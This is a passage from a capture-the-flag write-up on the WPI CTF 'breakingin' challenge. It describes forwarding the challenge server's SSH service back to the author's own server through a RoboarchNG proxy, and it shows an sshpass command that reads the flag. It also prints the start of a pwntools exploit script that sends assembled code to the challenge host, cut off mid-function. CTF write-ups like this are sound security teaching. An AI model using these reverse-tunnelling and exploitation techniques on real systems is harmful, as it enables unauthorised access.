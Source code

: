 

The only thing left to do was to do some pipe magic on my server so that when I received a connection I could then hook an SSH client up to that connection. I couldn't figure out how to do this in a bash oneliner (if you know how then please let me know), so my teammate Retr0id quickly whipped up a script to do this for me.

Now all that was left to do was to start the listener on my server, connect an SSH client to it and then run my exploit which could start the RoboarchNG proxy and forward the SSH server to my remote server, ultimately giving me an SSH connection from my server to the challenge server.

Needless to say the latency on this was pretty bad, so it was easiest just to cat the flag non-interactively.
```sh
root@pwn:~# sshpass -p "hunter2" ssh -p 31337 breakingin@localhost cat flag.txt
WPI{16_byte_instructions_kinda_suck}
root@pwn:~#
```


The whole script I used is here:

```python
from pwn import *
import sys
import os

def get_file_contents(name):
    with open(name, 'rb') as f:
        d = f.read()
    return d

def assemble(code, out_file='/tmp/out'):
    with open("/tmp/code", "w") as f:
        f.write(code)
    log.info("Assembling")
    os.system("../roboarchngasm {} {} > /dev/null".format('/tmp/code', out_file))
    d = get_file_contents(out_file)
    return d

def send_to_server(t, data):
    log.info("Sending length ({})".format(len(data)))
    t.sendlineafter('):', str(len(data)))
    log.info("Sending binary")
    t.sendafter('teread 0', data)

def assemble_and_send(data, close=True, cont=False):
    data = assemble(data)
    t = remote('breakingin.wpictf.xyz', 31338)
    dump(data, 'lol.bin')
    send_to_server(t, data)
    if cont:
        buf = ''
        try:
            while True:
                nxt = t.recv()
                print(nxt)
                if nxt == '':
                    break
                buf += nxt
        except:
            pass
        d = buf
    else:
        d = t.recvall()

    if close:
```